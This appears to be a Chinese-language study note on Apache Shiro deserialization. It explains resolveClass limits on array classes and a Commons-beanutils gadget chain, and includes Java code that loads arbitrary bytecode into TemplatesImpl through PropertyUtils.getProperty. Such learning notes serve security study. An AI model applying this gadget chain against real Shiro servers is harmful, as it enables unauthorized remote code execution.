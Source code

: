 ois.readObject会调用`resolveClass`方法

这里需要注意的是Shiro并不是使用原生的反序列化，而是重写了ObjectInputStream,重写后的resolveClass方法最终调用的可以理解为findClass去加载类,而findClass是加载不了数组类的

![image-20220320003813486](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220320003813486.png)

#### 为什么findClass加载不了数组类?

> 看了讲解,由于java底层知识严重不足,只能勉强理解成如下

findClass实质是将包名的路径更换成文件路径去调用defineClass去加载,而不会有class文件起数组的名字

如果是jdk自带的数组类,是可以加载的它调用的是Class.forName,

shiro中如果是网站下面的比如`WEBINF`下面的就会调用findClass去加载



### Shiro无依赖

Shiro默认是没有CC依赖的,此时怎么通过反序列化开始代码执行呢?

Shiro默认有一个Commons-beanutils依赖,这个依赖中

Commons-beanutils依赖中有一个叫`PropertyUtils`的类,它有一个`getProperty`函数,能够通过传入的对象动态的调用其get方法

`getProperty`最后会调用到``PropertyUtilsBean`的`getSimpleProperty`方法,

descriptor中包含属性值和其get set方法的名字,然后在invokeMethod中进行调用

![image-20220321143032661](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220321143032661.png)

恰好`TemplatesImpl`中有一个叫做`getOutputProperties()`的无参方法,它调用了cc3中需要调用的`newTransformer`方法

![image-20220321143749765](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220321143749765.png)

试一下能不能调用,要注意大小写,get方法采用的是驼峰命名方法

```java
public static void main(String[] args) throws Exception{
        TemplatesImpl templates=new TemplatesImpl();
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates,"aaa");
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        byte[] code= Files.readAllBytes(Paths.get("H:\\java\\classTest\\MyClass.class"));
        byte[][] codes={code};
        bytecodes.set(templates,codes);
        
        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates,new TransformerFactoryImpl());
        PropertyUtils.getProperty(templates,"outputProperties");

    }
```
